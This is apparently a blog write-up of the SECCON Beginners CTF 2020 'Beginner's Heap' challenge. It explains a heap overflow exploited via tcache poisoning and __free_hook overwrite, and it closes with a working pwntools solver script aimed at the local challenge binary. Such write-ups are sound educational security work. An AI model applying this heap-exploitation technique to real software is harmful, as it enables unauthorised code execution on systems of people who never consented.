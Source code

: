 ```yaml
---
title: "Beginner's Heap - SECCON Beginner's CTF 2020"
date: 2022-05-06T09:14:45+09:00
tags: ["pwn", "SECCON Beginners CTF", "ptr-yudai's chall"]
draft: false
---
```


# Plan
Overwrite under chunk's `fd` pointer by Heap Overflow, and then call `win` function by tcache poisoning.

# Preparation
Malloced and then, it connects area freed of B to `tcache`.

```
-=-=-=-=-= TCACHE -=-=-=-=-=
[    tcache (for 0x20)    ]
        ||
        \/
[ 0x000055dfd3002350(rw-) ]
        ||
        \/
[      END OF TCACHE      ]
-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

# Vulnerability
Vulnerability is Heap Overflow.
You can write 0x80 byte to a chunk for 0x18.

## Overwrite B's `fd` pointer
Now, there isn't a freed chunk which connects to the next 
because the freed chunk's `fd` is `NULL`.

Here, overwrite the B's `fd` by using Heap Overflow of A and then, 
`tcache` think there will be a next the B.

The figure of gave `A*24 + 0x31 + __freehook` to the area.

[![Image from Gyazo](https://i.gyazo.com/3b549b3e5a42c8e50762308c481089cf.png)](https://gyazo.com/3b549b3e5a42c8e50762308c481089cf)


## Overwrite the `fd` with `__free_hook`
Overwrite the `fd` with `__free_hook` and then, `tcache` is the following.

`0x00007effac9cc8e8` is address of `__free_hook`.
```
-=-=-=-=-= TCACHE -=-=-=-=-=
[    tcache (for 0x20)    ]
        ||
        \/
[ 0x0000557af97c3350(rw-) ]
        ||
        \/
[ 0x00007effac9cc8e8(rw-) ]
        ||
        \/
[      END OF TCACHE      ]
-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

## Overwrite the chunk size with `0x30`
When a times of malloc is restricted, if it keep the chunk size is `0x20`, 
the address of `__free_hook` is NOT returned.

Therefore, change to `0x30` and then, 
the `__free_hook` is came to head of `tcache` 
because freed chunk of B connects to `tcache` for 0x30.

When `B` and `__free_hook` connects to `tcache` for 0x20
```
tcache [0x20] -> B -> __free_hook
tcache [0x30] -> NULL
```

After changing the chunk size of B, and then malloced and freed.
```
tcache [0x20] -> __free_hook
tcache [0x30] -> B
```

## Write the `win` function to `__free_hook`
Address returned with `B = malloc(0x18)` is `__free_hook`.
`__free_hook` is a hook[^1] called when execute `free` function.
Therefore, write the address of `win` function to `__free_hook` and then `free()`,
`win` function will be called.

[^1]: imagine of hook is the place via once.

> Please follow the my [Twitter](https://twitter.com/yu1hpa).

# [Solver](https://github.com/yu1hpa/ctf-writeup/blob/master/2020/SECCONBiginnersCTF/BeginnersHeap/solve.py)

```python
from pwn import *

context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

def write(data):
    io.sendlineafter("> ", "1")
    io.sendline(data)

def malloc(data):
    io.sendlineafter("> ", "2")
    io.sendline(data)

def free():
    io.sendlineafter("> ", "3")

def describe_heap():
    io.sendlineafter("> ", "4")

io = process("./chall")

#leak address
io.recvuntil("<__free_hook>: ")
addr_free_hook = int(io.recvline(), 16)
print("__free_hook address: " + hex(addr_free_hook))

io.recvuntil("<win>: ")
addr_win = int(io.recvline(), 16)
print("win address: " + hex(addr_win))

payload = b"A"*0x18
payload += p64(0x31)
payload += p64(addr_free_hook)

malloc("")
free()
write(payload)

malloc("")
free()

malloc(p64(addr_win))
free()

io.interactive()
```
